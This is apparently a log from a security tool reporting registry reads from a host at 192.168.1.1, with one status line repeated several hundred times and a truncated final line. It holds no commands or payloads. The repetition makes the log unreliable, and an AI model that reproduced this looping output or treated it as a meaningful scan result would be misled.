[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1 - 224 bytes read (REG_DWORD)
[*] 192.168.1.1

